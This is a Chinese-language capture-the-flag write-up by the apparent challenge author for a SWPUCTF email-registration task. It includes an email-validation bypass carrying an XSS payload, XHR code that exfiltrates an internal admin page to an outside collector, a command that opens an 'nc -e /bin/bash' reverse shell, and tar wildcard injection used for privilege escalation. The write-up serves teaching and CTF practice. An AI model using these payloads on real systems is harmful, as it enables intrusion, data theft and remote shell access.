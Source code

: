 ```yaml
---
layout:     post
title:      第九届SWPUCTF-有趣的邮箱注册出题思路
subtitle:   
date:       2018-12-20
author:     sp4rk
header-img: 
catalog: true
tags:
    - ctf
    - 权限提升
---
```


 最后一届在学校举办的校赛，时间真快啊，马上毕业了，感谢@小东哥，@谢队等学弟的帮忙，这次线上线下的比赛也算圆满举行了。

## 0x01 出题思路
   之前看到有人发了个 FILTER_VALIDATE_EMAIL 的绕过，就想着出个XSS。用phantomJS去访问读取内网的资源，让他们通过XHR来读源码，后面的tar提权是@小东哥提供的思路。

## 0x02 WriteUp

check.php右键发现源码有php

```php
<!--check.php
if($_POST['email']) {
$email = $_POST['email'];
if(!filter_var($email,FILTER_VALIDATE_EMAIL)){
echo "error email, please check your email";
}else{
echo "等待管理员自动审核";
echo $email;
}
}
?>
```
于是提交payload

```javascript
"aaa><script/src=http://sp4rk.cn:6324/duyuanma.js</script>"@a.aaa
```

```javascript
var a = new XMLHttpRequest();
a.open('GET', 'http://localhost:6324/admin/admin.php', false);
a.send(null);
b = a.responseText;
location.href = 'http://t15em7.ceye.io/d' + escape(b);
```
![](https://tva1.sinaimg.cn/large/006y8mN6ly1g7fc21os8yj31uk0bedhs.jpg)

可以看到admin/a0a.php下面有个命令执行，于是弹shell

```javascript
var a = new XMLHttpRequest();
a.open('GET', 'http://localhost:6324/admin/a0a.php?cmd=nc+-e+%2fbin%2fbash+118.89.56.208+6325', false);
a.send(null);
b = a.responseText;
location.href = 'http://t15em7.ceye.io/' + escape(b);
```
![](https://tva1.sinaimg.cn/large/006y8mN6ly1g7fc24rhq9j327g0m4wgi.jpg)
![](https://tva1.sinaimg.cn/large/006y8mN6ly1g7fc2dtq22j310i0dyacd.jpg)
![](https://tva1.sinaimg.cn/large/006y8mN6ly1g7fc2ixq18j30r40eawfp.jpg)

上层的根目录有个4f0a5ead5aef34138fcbf8cf00029e7b，访问下

![](https://tva1.sinaimg.cn/large/006y8mN6ly1g7fc2ked1oj326w0mcjsp.jpg)

这里有个上传和备份文件

![](https://tva1.sinaimg.cn/large/006y8mN6ly1g7fc2nngf2j30su0kaad7.jpg)

发现经过tar *处理，于是上传文件

![](https://tva1.sinaimg.cn/large/006y8mN6ly1g7fc2rh67aj31hc0pmdn3.jpg)

![](https://tva1.sinaimg.cn/large/006y8mN6ly1g7fc2ww1olj31hw0h478z.jpg)

–checkpoint=1

–checkpoint-action=exec=sh exp.sh

exp.sh

```shell
nc -e /bin/bash 118.89.56.208 6325
```

![](https://tva1.sinaimg.cn/large/006y8mN6ly1g7fc308rhxj30zm0a040x.jpg)
